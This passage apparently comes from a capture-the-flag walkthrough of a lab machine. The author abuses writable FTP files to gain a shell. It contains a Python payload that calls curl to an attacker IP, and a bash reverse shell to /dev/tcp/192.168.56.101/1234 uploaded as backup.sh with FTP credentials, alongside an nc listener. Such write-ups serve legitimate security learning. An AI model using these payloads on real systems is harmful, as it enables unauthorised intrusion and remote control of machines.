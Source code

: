 ```shell
goper@panabee: Permission denied (publickey).
```
Then it does not work, and it seems the server does not allow remote connections, and I decided to change the approach, and I will start checking every file on the `FTP` service, and maybe I will figure out a way to get `Goper`'s shell. When I download the `status.py` file, then I identify lines from `13` to `16`:
```python
13 if ping(host):
14   os.system("/usr/bin/echo 'Server is up' > /home/jenny/status.txt")
15 else:
16   os.system("/usr/bin/echo 'Server is down' > /home/jenny/status.txt")
```
And the variable `host` is set with `127.0.0.1`, and I discover the user `jenny`, and the `gopher` user has permission to modify that file, and if a background process or `crontab` is running that script, then I could run arbitrary commands. When I try it, and I modify the file with the following payload:
```python
import os
os.system("/bin/bash -c 'curl 192.168.56.101:8000'")
```
And I open an `HTTP` service with Python3:
```shell
$ python3 -m http.service 8000
```
And I change the name of the current `status.py` file:
```shell
$ ftp> rename status.py status.py.bak
```
And I upload the new `status.py` file:
```shell
$ ftp> put status.py status.py
```
And I wait for a few minutes, then nothing happens, and my assumption that the script is being executed by a process was wrong, and I was stuck for a while. When I start going through the files I found so far again, then the `note.txt` makes me think that something should do the `backup`. When I search for `backup` in the `.bash_history`:
```shell
$ cat .bash_history | grep backup
bash /home/goper/backup.sh
/home/goper/backup.sh
/home/goper/backup.sh
chmod +x backup.sh
./backup.sh
rm backup.sh
```
Then maybe there is a process that executes the `backup.sh` script, and that is the same guess I made with the `script.py`, but I have no other options right now. Then I will give it a try. When I create a file called `backup.sh` with a reverse shell payload:
```shell
$ echo \
> "bash -c 'bash -i >& /dev/tcp/192.168.56.101/1234 0>&1'" > backup.sh
```
And I open a listener with the `nc` command:
```shell
$ nc -lvnp 1234
```
And I upload the `backup.sh` script with the `curl` command:
```shell
$ curl -T backup.sh 'ftp://goper:spiderman@panabee/backup.sh' \
> -Q '-SITE CHMOD 755 backup.sh'
```
Then it works, I get the reverse shell :

